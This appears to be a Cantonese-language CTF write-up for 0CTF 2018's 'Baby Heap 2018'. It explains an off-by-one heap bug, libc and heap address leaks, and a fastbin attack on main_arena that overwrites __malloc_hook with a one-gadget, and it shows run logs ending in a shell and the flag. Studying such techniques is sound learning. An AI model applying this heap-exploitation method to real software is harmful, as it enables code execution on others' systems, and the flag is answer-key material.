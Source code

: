 # Baby Heap 2018 - 183pts

題目:
>
>Let's practice the very basic [heap](babyheap.tar.gz) techniques in 2018!
>
>202.120.7.204:127


Menu:

```
   / //_// ____/ ____/ | / /  / /   /   |  / __ )
  / ,<  / __/ / __/ /  |/ /  / /   / /| | / __  |
 / /| |/ /___/ /___/ /|  /  / /___/ ___ |/ /_/ /
/_/ |_/_____/_____/_/ |_/  /_____/_/  |_/_____/

===== Baby Heap in 2018 =====
1. Allocate
2. Update
3. Delete
4. View
5. Exit
Command: 
```

呢條係經典嘅heap題目,有齊 allocate, update, delete, view

# vulnerability:

```C
{
    printf("Size: ");
    LODWORD(v1) = sub_140A();
    v4 = v1;
    if ( (signed int)v1 > 0 )
    {
      v1 = *(_QWORD *)(24LL * v3 + a1 + 8) + 1LL;
      if ( v4 <= v1 )
      {
        printf("Content: ");
        sub_1230(*(_QWORD *)(24LL * v3 + a1 + 16), v4);
        LODWORD(v1) = printf("Chunk %d Updated\n", (unsigned int)v3);
      }
    }
    
  ```
  
係update function個到, input content會比input size讀多左1 byte 入去heap到,一個好明顯嘅 off by one bug
  
我地可以用個個 byte shrink 或者extend個 chunk

不過呢題有一個constraint,最多只可以calloc到 0x60 chunk(fast bin),而且call calloc會將舊content 清0

所以無得靠直接free unsorted bin leak libc/heap address

```C

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v2 = sub_140A();
      if ( v2 > 0 )
      {
        if ( v2 > 0x58 )
          v2 = 0x58;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;
        printf("Chunk %d Allocated\n", (unsigned int)i);
      }
      return;
    }
  }
}
```
# Leak Information

係呢個情況下我地靠update n th chunk,用off by one overwrite下一個chunk(n+1 th chunk)嘅size, 再free下一個chunk(n+1 th chunk)

咁就可以將n+1 th chunk 放入unsorted bin, 之後再view n th chunk leak libc

leak heap address 可以用上面方法放多一個chunk入unsorted bin,再view 或者create一個k size fastbin,free左佢,再靠 off by one, extend一組 chunk, corrupt 包左嘅一個chunk做k size, 由於fastbin係 single linked list所以 leak到 heap address

# Exploit

我地可以free某個包住左嘅chunk 做 fastbin attack

你以為你已經get shell?? 少年你太年輕了

因為最大只可以calloc 0x60 chunk, 而要 bypass fast bin checking, calloc 去_malloc_hook附近位置,需要 calloc到 0x70 chunk

最後發現,如果heap address 開頭係0x56,我地可以靠calloc 0x60 chunk 去到main_arena紀錄current top address附近嘅位置

所以我地用fastbin attack,calloc 去main_arena+offset,edit top 做_malloc_hook附近位置,再做幾次calloc clean返之前d位,最後我地拎到 _malloc_hook,再 overwrite _malloc_hook->one gadget rce,call calloc->get shell

# Flag

```
flag{have_fun_with_fastbin}
```

logs:
```
# [+] Opening connection to 202.120.7.204 on port 127: Done
# [*] '/root/Desktop/CTF_Game/0ctf_2018/baby_heap/libc.so.6'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Leaking heap addr
# [*] Leaked heap addr :0x562ecd700000
# [*] Leaking libc
# [*] Leaked libc :0x7f58a9390b58
# [*] Leaked libc base :0x7f58a8ff7000
# [*] __malloc_hook : 0x7f58a9390af0
# [*] __free_hook : 0x7f58a9392788
# [*] main_arena : 0x7f58a9390b00
# [*] main_arena : 0x7f58a9390b00
# [*] Hijacking main_arena
# 73
# [*] removing old 0x20 to clean up the list
# [*] starting attack :)
# [*] Switching to interactive mode
# Chunk 9 Updated
# 1. Allocate
# 2. UpdateSize: total 84
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 .
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 ..
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 bin
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 boot
# drwxr-xr-x  16 root root  2960 Mar 14 14:37 dev
# drwxr-xr-x  77 root root  4096 Mar 30 19:21 etc
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 home
# lrwxrwxrwx   1 root root    29 Mar 14 09:48 initrd.img -> boot/initrd.img-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    29 Mar 14 09:35 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
# drwxr-xr-x  14 root root  4096 Mar 14 09:40 lib
# drwxr-xr-x   2 root root  4096 Mar 28 21:47 lib64
# drwx------   2 root root 16384 Mar 14 09:35 lost+found
# drwxr-xr-x   3 root root  4096 Mar 14 09:35 media
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 mnt
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 opt
# dr-xr-xr-x 101 root root     0 Mar 14 14:37 proc
# drwx------   4 root root  4096 Mar 31 06:27 root
# drwxr-xr-x  17 root root   580 Mar 31 11:05 run
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 sbin
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 srv
# dr-xr-xr-x  13 root root     0 Mar 31 11:43 sys
# drwx-wx-wt   8 root root  4096 Apr  1 02:17 tmp
# drwxr-xr-x  10 root root  4096 Mar 14 09:35 usr
# drwxr-xr-x  11 root root  4096 Mar 14 09:35 var
# lrwxrwxrwx   1 root root    26 Mar 14 09:48 vmlinuz -> boot/vmlinuz-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    26 Mar 14 09:35 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
# $ cat flag
# cat: flag: No such file or directory
# $ cd home
# $ ls
# babyheap
# $ cd babyheap
# $ cat flag
# flag{have_fun_with_fastbin}
# [*] Got EOF while reading in interactive
# $  
```
